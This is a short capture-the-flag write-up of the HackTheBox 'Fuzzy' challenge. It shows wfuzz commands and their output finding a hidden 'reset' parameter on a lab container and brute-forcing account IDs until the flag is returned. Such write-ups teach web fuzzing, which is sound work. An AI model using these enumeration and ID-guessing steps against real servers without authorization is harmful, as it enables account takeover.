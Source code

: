 ```yaml
---
Title: HackTheBox Fuzzy
Date: 2020-09-23
Category: Challenges
Status: published
---
```


Fuzzy is a fun and short challenge on a docker container. It is especially good for teaching beginners the basics of using a fuzzer to discover new endpoints on a webserver.Spawning the container and probing around a bit, we don't have too much success. Using dirbuster and a standard wordlist, we find the endpoint `/api/action.php`. With `wfuzz` we can now see whether passing any specific parameter to the endpoint significantly changes our response payload:

```sh
$ wfuzz -w seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 24 http://docker.hackthebox.eu:32514/api/action.php\?FUZZ

********************************************************
* Wfuzz 2.4.2 - The Web Fuzzer                         *
********************************************************

Target: http://docker.hackthebox.eu:32514/api/action.php?FUZZ
Total requests: 2588

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000106:   200        0 L      5 W      27 Ch       "reset"

Total time: 15.79833
Processed Requests: 2588
Filtered Requests: 2587
Requests/sec.: 163.8147
```

Passing the `reset` parameter yields the error message: `Error: Account ID not found`. We can use `wfuzz` again to fuzz
potential values for the parameter.

```sh
$ wfuzz -z range,0-1000 --hh 27 http://docker.hackthebox.eu:32514/api/action.php\?reset\=FUZZ
********************************************************
* Wfuzz 2.4.2 - The Web Fuzzer                         *
********************************************************

Target: http://docker.hackthebox.eu:32514/api/action.php?reset=FUZZ
Total requests: 1001

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000021:   200        0 L      10 W     74 Ch       "20"

Total time: 3.746470
Processed Requests: 1001
Filtered Requests: 1000
Requests/sec.: 267.1847
```

Finally, calling the assembled endpoint with the account ID 20, we get a response containing the flag:

```
http://docker.hackthebox.eu:32514/api/action.php?reset=20

```

Short and sweet. :)
